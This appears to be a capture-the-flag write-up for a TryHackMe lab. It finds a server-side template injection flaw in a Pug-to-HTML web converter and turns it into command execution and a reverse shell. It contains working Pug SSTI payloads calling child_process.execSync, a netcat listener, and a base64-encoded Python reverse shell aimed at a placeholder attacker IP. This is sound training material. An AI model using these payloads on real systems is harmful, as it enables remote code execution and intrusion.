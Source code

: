 ```yaml
---
layout: post
author: L0
---
```


# THM-Templates

![image](/images/Pasted image 20221031000528.png)

## Enumeration

### nmap

starting with nmap revealed a web server on port 5000 and `ssh` on port 22

```shell
$ nmap -A templates.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 18:23 EDT
Nmap scan report for templates.thm (10.10.86.105)
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2:e4:5d:b1:47:f7:58:7c:d9:ae:3f:a4:14:00:7d:e5 (RSA)
|   256 c9:cd:60:99:3f:c4:7a:59:f6:65:2f:0b:8a:c8:43:99 (ECDSA)
|_  256 62:1b:b2:c8:29:ca:84:d9:f0:aa:71:b3:e9:b9:53:21 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: PUG to HTML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i looked at the web page and was greeted with a PUG to HTML Converter.

![image](/images/Pasted image 20221030235451.png)

after pushing the Button a raw conversion String was presented.

![image](/images/Pasted image 20221030235511.png)

after a quick research about PUG syntax i tried the confirmation of a possible SSTI.

![image](/images/Pasted image 20221030235552.png)

and what a surprise i go the correct answer back.

![image](/images/Pasted image 20221030235611.png)

## Exploit

now i had to find a way to get a shell onto this machine. again i googled a bit and stumbled across some interesting resources.

![image](/images/Pasted image 20221030235232.png)

`0xdbe` s ssti-express-pug was depends on tplmap. i followed the link and searched through the source code. 

![image](/images/Pasted image 20221030235322.png)

[tlpmap](https://github.com/epinna/tplmap/)

i found something in a file that belongs to exploiting the Pug template engine.

![image](/images/Pasted image 20221030235407.png)

before i could try the command i needed to encode my commands. in the next PoC i tried to execute `id` an the box.

![image](/images/Pasted image 20221030235718.png)

```shell
#{global.process.mainModule.require('child_process').execSync(Buffer('aWQ=', 'base64').toString())}
```

and it worked.

![image](/images/Pasted image 20221030235755.png)

the same command works also without base64 encoding, but you get a problem when you need to execute commands more complex and with more special symbols. so i sticked with encoding to base64

```shell
#{global.process.mainModule.require('child_process').execSync('id')}
```

before i tried to execute a reverse shell i started a listener on my kali box.

```shell
$ nc -lvnp 4444
```

this time i tried the python reverse shell

```shell
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker ip>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

encoding to base64

```shell
cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiPGF0dGFja2VyIGlwPiIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIpJwo=
```

and inserted it in the command

```input
#{global.process.mainModule.require('child_process').execSync(Buffer('cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiPGF0dGFja2VyIGlwPiIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIpJwo=', 'base64').toString())}
```

the shell poped and i got my flag


![image](/images/Pasted image 20221031000354.png)

